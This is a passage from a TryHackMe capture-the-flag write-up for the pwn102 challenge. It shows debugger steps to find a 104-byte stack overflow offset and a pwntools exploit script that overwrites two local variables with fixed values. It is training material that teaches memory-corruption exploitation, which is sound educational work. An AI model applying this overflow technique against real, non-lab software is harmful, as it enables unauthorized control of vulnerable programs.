 We let run the program and gives cyclic output as input. When program hits our breakpoint we check the value of “$rbp-4”.

```nasm
x/s $rbp-4
```

```bash
cyclic -l caab
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%207.png)

We can understand this 108 char will fill the buffer and overwrite “$rbp-4”. But $rbp-8?

```nasm
$rbp - 4 = 108
$rbp - 8 = 104
```

So our exploit is gonna be:

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
        if args.REMOTE: # Runs on remote server, usage "python2.7 code.py REMOTE ip port"
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        else: # Runs locally, usage "python2.7 code.py"
                return process([exe] + argv, *a, **kw)

exploit  = b''
exploit += b"\x90"*104 # we fill the buffer 
exploit += pack("<I", 0xc0d3) # we overwrite $rbp-8
exploit += pack("<I", 0xc0ff33) # we overwrite $rbp-4

#If you want to see what we wrote uncomment next two lines
#f = open("input.txt", "wb")
#f.write(exploit)

io = start()
```